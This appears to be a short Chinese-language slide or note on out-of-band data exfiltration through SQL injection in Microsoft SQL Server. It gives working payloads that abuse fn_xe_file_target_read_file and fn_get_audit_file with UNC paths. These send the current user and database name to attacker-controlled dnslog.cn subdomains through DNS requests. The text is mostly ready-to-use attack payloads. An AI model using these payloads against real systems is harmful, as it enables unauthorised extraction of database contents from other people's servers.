

MSSql注入数据外带
MSSql注入数据外带
当注入点仅存在盲注时，使用sqlmap出数据太慢，使用数据外带加速出数据。
数据外带
不存在堆叠注入数据外带
利用fn_xe_file_target_read_file, fn_get_audit_file, fn_trace_gettable使用unc路径判断文件发起请求带出数据
注入过程：
Payload：id=1' and exists(select * from fn_xe_file_target_read_file('C:*.xls','\\'+(select user)+'.7wb9ur.dnslog.cn\1.txt',null,null))--
Payload： id=1' and exists(select * from fn_get_audit_file('\\'%2b(select db_name())%2b'.gge9i3.dnslog.cn\123.txt',default,default))--